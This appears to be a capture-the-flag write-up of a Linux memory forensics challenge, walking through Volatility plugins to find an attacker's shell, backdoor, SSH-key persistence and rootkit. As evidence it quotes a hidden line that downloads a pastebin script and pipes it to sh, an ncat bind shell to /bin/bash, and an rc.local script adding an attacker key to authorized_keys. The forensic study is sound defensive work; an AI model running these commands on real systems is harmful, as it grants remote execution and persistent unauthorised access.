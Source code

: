 # Seized

- [X] écriture
- [ ] abstract
- [ ] post linkedin

The Scenario:

> Using Volatility, utilize your memory analysis skills as a security blue team analyst to Investigate the provided Linux memory snapshots and figure out attack details.

## Q1. What is the CentOS version installed on the machine?

The archive name provides the kernel version, using the [CentOS Wikipedia page](https://en.wikipedia.org/wiki/CentOS) you will see that the corresponding CentOS version is `7.7-1908`.

## Q2. There is a command containing a strange message in the bash history. Will you be able to read it?

Using `linux_bash` plugin we could see that the user put content in a file : `echo "c2hrQ1RGe2wzdHNfc3Q0cnRfdGgzXzFudjNzdF83NWNjNTU0NzZmM2RmZTE2MjlhYzYwfQo=" > y0ush0uldr34dth1s.txt`. Decode the base64 using cyberchef gives the flag.

## Q3. What is the PID of the suspicious process?

`linux_pstree` shows more than 200 processes. Instead to explore each of them, a clever way is to directly focuse on strange processes using `linux_malfind` : 

```log
Process: gnome-terminal- Pid: 2535 Address: 0x7f1d414bf000 File: Anonymous Mapping
Protection: VM_READ|VM_WRITE|VM_EXEC
Flags: VM_READ|VM_WRITE|VM_EXEC|VM_MAYREAD|VM_MAYWRITE|VM_MAYEXEC|VM_ACCOUNT|VM_CAN_NONLINEAR

0x007f1d414bf000  78 5f 00 00 00 00 00 00 00 00 00 00 00 00 00 00   x_..............
0x007f1d414bf010  53 41 57 41 56 41 55 55 48 8b df 48 81 ec 50 02   SAWAVAUUH..H..P.
0x007f1d414bf020  00 00 48 8b 43 10 48 83 e8 01 48 8d 74 24 58 48   ..H.C.H...H.t$XH
0x007f1d414bf030  c7 c1 13 00 00 00 48 89 46 08 48 8d 76 08 48 83   ......H.F.H.v.H.
```

Exploring this PID on the `pstree`, proove that there is something suspicious, as `insmod` is used to insert modules into the kernel : 

```log
...
.gnome-terminal-     2535            1000
..gnome-pty-helpe    2621            1000
..bash               2622            1000
...sudo              3612
....insmod           3614
...
```

**Unfortunately, that's none of them.** Suspicious activity is not always malicious.

Exploring again the `pstree`, we can see something else suspicious :

```log
.ncat                2854
..bash               2876
...python            2886
....bash             2887
.....vim             3196
```

This one is more suspicious than the previous one because of the `ncat` (network process) launching some scripts.

## Q4. The attacker downloaded a backdoor to gain persistence. What is the hidden message in this backdoor?

I was unable to find this answer. I tried to list all the cached files using `linux_cached_file` to see if there is some suspicious one and dump it, but I found nothing. I tried to dump the suspicious process but without results too.

I also tried the github present in the bash history but I didn't see the hidden line pushed to the right : 

```python3
os.system('wget -O - https://pastebin.com/raw/nQwMKjtZ 2>/dev/null|sh')
```

A write-up gave me the flag because the links seems not valid anymore. This pastebin should contains a base64 strings which is the flag :

```bash
### Congratz : c2hrQ1RGe3RoNHRfdzRzXzRfZHVtYl9iNGNrZDAwcl84NjAzM2MxOWUzZjM5MzE1YzAwZGNhfQo=
nohup ncat -lvp 12345 -4 -e /bin/bash > /dev/null 2>/dev/null &
```

## Q5. What are the attacker's IP address and the local port on the targeted machine?

Using `linux_netstat` returns a lot of information but at the end of the output we could see theses lines : 

```log
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                  ncat/2854 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                  bash/2876 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                python/2886 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                  bash/2887 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                   vim/3196 
```

The **local** port is the one written in the script above, and the attacker's IP address is the other.

## Q6. What is the first command that the attacker executed?

We can't see other commands with `linux_bash`, a different way to investigate on this kind of clues is the `linux_psaux` plug-in. The output bottom is interesting, as it contains the malware related command line arguments :

```log
2854   0      0      ncat -lvp 12345 -4 -e /bin/bash
2876   0      0      /bin/bash
2886   0      0      python -c import pty; pty.spawn("/bin/bash")
2887   0      0      /bin/bash
3196   0      0      vim /etc/rc.local
3271   0      0      /usr/sbin/abrt-dbus -t133
3279   89     89     cleanup -z -t unix -u
3280   89     89     trivial-rewrite -n rewrite -t unix -u
3281   0      0      local -t unix
3299   0      0      sleep 60
3612   0      0      sudo insmod lime-3.10.0-1062.el7.x86_64.ko path=/Linux64.mem format=lime
3614   0      0      insmod lime-3.10.0-1062.el7.x86_64.ko path=/Linux64.mem format=lime
```

Just after the `netcat`, the attackers run `python -c import pty; pty.spawn("/bin/bash")`.

## Q7. After changing the user password, we found that the attacker still has access. Can you find out how?

This question is quite hard. First, you have to investigate on the `vim` process. Why this process?

- we didn't care of it yet

- it's a part of the cyber kill chain

- intuition I guess?

After dumping the process using `linux_dump_map`, we could see that the process memory contains lot of information. It contains so much that is difficult to know what to look for. We are looking for malware persistence mecanisms, we can try to ask to ChatGPT what are the most famous persistence mecanism. We can investigate on several answer but the good one is SSH keys. If we search on these files for ssh-things, we will find the answer :

```logs
strings *.vma|grep -i 'ssh'

#!/bin/sh 
     # Well played : c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=
    
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
    "/etc/rc.local" 3L, 596C
    1,1           
    All zed_keys> /home/k3vin/.ssh/authorized_keys && 
    chmod 600 /home/k3vin/.ssh/authori
```

The first base64 encoded string is the flag. It's interesting to capitalize on knowledge to understand this persistance mecanism :

**This code add a SSH key for the K3vin user and modify its permissions in a manner that only this user can modify it.**

## Q8. What is the name of the rootkit that the attacker used?

Thanks to this tutorial, [Analyzing Linux Rootkits with Volatility](https://downloads.volatilityfoundation.org/omfw/2012/OMFW2012_Case.pdf), we learned some ways to detect rootkit on a Linux system. One of them is to investigate on syscalls using `linux_check_syscall`. This command returns lot of information but we are only interested in the hooked syscalls.

```logs
Table Name Index System Call              Handler Address    Symbol                                                      
---------- ----- ------------------------ ------------------ ------------------------------------------------------------
64bit         88                          0xffffffffc0a12470 HOOKED: sysemptyrect/syscall_callback
...
64bit        332                          0x6461625f6e726177 HOOKED: UNKNOWN
```

Firstly, I was quite lost ; how can I find the rootkit name ? In fact, the `Symbol` column contains the rootkit name here.

## Q9. The rootkit uses crc65 encryption. What is the key?

Firstly, I searched on internet if this rootkit has a known crc65 encryption key. I found many Write-Up but searching `sysemptyrect` in the dump file (using `grep` for example) will give you the key.
